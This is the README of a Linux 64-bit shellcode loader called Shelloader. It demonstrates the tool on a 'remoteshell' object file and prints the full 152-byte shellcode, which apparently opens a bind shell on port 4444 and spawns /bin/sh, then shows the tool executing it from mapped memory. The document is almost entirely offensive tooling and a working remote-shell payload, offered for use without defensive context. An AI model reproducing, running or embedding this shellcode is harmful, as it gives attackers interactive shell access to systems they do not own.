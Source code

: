 Shelloader
===========

Linux 64-Bit mmap based shellcode loader.

Example usage with remoteshell shellcode
-----------------------------------------

[rj@localhost  shelloader]$ ./shelloader remoteshell_nulled.o -e<br>
Linux 64-Bit mmap based shellcode loader by Travis "rjkall".<br>
[*] Examining remoteshell_nulled.o...<br>
[*] EI_MAG0 = 0x7f, continuing.<br>
[*] Found .text section at address 0x00000040 with length of 152 bytes.<br>
[*] Dumping shellcode.<br>
\x55\x48\x89\xe5\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc1\x48\x83\xec\x10\x66\xc7\x45\xf2\x11\x5c\xbe\x80\xff\xff\xfe\xf7\xd6\x89\x75\xf4\xc6\x45\xf0\x02\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x4c\x89\xcf\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x83\xec\x10\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x48\x83\xfe\x03\x7d\x0d\x4c\x89\xc7\x6a\x21\x58\x0f\x05\x48\xff\xc6\xeb\xed\x48\xb8\x6a\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xe8\x08\x50\x54\x5f\x48\x31\xf6\x48\x31\xd2\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05<br>
[*] Mapping and copying 152 bytes of shellcode to memory.<br>
[*] Executing shellcode at address 0x7fcc522c6000.<br>
[rj@localhost shelloader]$ <br>
